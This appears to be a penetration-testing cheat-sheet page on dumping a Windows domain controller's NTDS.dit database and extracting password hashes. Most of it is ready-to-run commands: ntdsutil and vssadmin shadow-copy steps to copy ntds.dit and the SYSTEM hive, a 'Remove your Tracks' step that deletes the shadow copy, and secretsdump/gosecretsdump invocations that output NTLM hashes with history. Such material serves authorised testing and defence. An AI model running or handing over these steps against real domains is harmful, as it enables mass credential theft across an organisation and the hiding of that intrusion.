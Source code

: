 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 50
# tags : ['']
---
```


On Domain Controller - create snapshot with `vssadmin.exe`.

## NTDSUtil

```plain
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

```plain
C:\Windows\Temp\NTDS\Active Directory\ntds.dit
C:\Windows\Temp\NTDS\registry\SYSTEM
```

## Shadowcopy

### Step 1 - Create ShadowCopy

```plain
PS C:\> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
```

### Step 2 - Copy NTDS.dit and SYSTEM from ShadowCopy

NTDS:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\ntds\ntds.dit c:\ntds.dit
```

SYSTEM:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\system32\config\system c:\system
```

Or use `reg save`

```plain
reg SAVE HKLM\SYSTEM c:\SYSTEM
```

You can also use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html) if you prefer a GUI.

{{%resources fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Step 3 - Remove your Tracks

```plain
PS C:\> vssadmin delete shadows /shadow={3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
```

## Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%resources fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

## URL List

- [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
- [Thehacker.recipes - Dumping NTDS](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)
